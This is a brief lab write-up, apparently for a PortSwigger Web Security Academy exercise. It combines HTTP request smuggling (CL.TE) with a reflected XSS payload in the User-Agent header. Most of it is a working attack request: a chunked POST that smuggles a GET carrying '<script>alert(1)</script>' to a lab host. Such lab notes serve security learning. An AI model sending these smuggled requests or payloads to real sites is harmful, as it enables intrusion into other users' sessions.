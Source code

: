 In this challenge, the userAgent input have XSS vul

The goal is to change the value is to, for example 
```
"><script>alert(1)</script>
```
This request trigger timeout error, confirm **CL.TE** vul

Attack request:
```
POST / HTTP/1.1
Host: 0a2d00d4042d5838bd0baa0a0099006c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 228

0


GET /post?postId=5 HTTP/1.1
Host: 0a2d00d4042d5838bd0baa0a0099006c.web-security-academy.net
User-Agent: a"><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

nglong05=hello
```


https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-bypass-front-end-security-controls